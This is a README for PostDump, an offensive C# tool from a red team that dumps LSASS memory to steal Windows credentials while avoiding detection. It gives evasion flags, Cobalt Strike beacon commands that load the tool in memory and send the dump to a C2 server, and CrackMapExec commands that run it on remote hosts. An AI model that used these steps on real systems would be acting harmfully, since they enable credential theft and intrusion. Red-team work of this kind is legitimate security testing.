

# PostDump

----

PostDump is a C# tool developt by COS team (CyberForce Offensive Security) of POST Luxembourg.

It is yet another simple tool to perform a LSASS memory dump using few technics to avoid detection.

New PostDump version include C# / .NET implementation of the famous NanoDump's `NanoDumpWriteDump` function, which permit to dump most important LSASS modules only, without calling `MiniDumpWriteDump` Windows API function.
The dump logic code is saved under the `POSTMinidump` project, feel free to use it for your own C# / .NET project.

Such as NanoDump, you can encrypt or use an invalid signature for the minidump, but also use BOFNET to avoid touching disk and download file to CobaltStrike C2 directly.

Works on x64 only.

## Usage

Dump LSASS:

    c:\Temp>PostDump.exe --help

    -o, --output        Output filename [default: Machine_datetime.dmp] (fullpath handled)

    -e, --encrypt       Encrypt dump in-memory

    -s, --signature     Generate invalid Minidump signature

    --snap              Use snapshot technic

    --fork              Use fork technic [default]

    --elevate-handle    Open a handle to LSASS with low privileges and duplicate it to gain higher privileges

    --help              Display this help screen.
  
    --version           Display version information.

## BOFNET

To use PostDump with Cobaltstrike, you must download and compile [BOFNET](https://github.com/CCob/BOF.NET):
- Build PostDump
- import the BOFNET .cna file into your cobalt
- `beacon> bofnet_init`
- `beacon> bofnet_load PostDump.exe`
- `beacon> bofnet_execute POSTDump.BOFNET [args]`

## CME and LSASSY modules
- Both use embedded base64 binary and autoclean
- Will not work with --encrypt or --signature
- copy CME-module/postdump.py into your CME modules folder
- copy LSASSY-module/postdump.py into your LSASSY modules folder
- `crackmapexec smb x.x.x.x -u user -p 'password' -M postdump [--options]`
- `crackmapexec smb x.x.x.x -u user -p 'password' -M lsassy -o METHOD=postdump`

## Improvements idea
- Use Syscalls instead of Dinvoke
- AMSI/ETW patching
- Implement more dump technics (duplicate handle, seclogon ..)

## Compilation
- You can build using .NET Framework 4.5.1 as-is.
- Depending of the CLR version installed on the system where you execute PostDump, you may need to downgrade to .NET 3.5 [more info here](https://learn.microsoft.com/fr-fr/dotnet/framework/migration-guide/versions-and-dependencies)
- If you downgrade to .NET Framework 3.5, you'll need to downgrade CommandLineParser dependance too

## Credit
- TheWover for the C# implementation of [DInvoke](https://github.com/TheWover/DInvoke)
- [_EthicalChaos_](https://twitter.com/_EthicalChaos_) for the project [BOFNET](https://github.com/CCob/BOF.NET)
- [s4ntiago_p](https://twitter.com/s4ntiago_p) for the awesome NanoDump tool and its implementation of the lsass dump logic (among all other cool stuff)
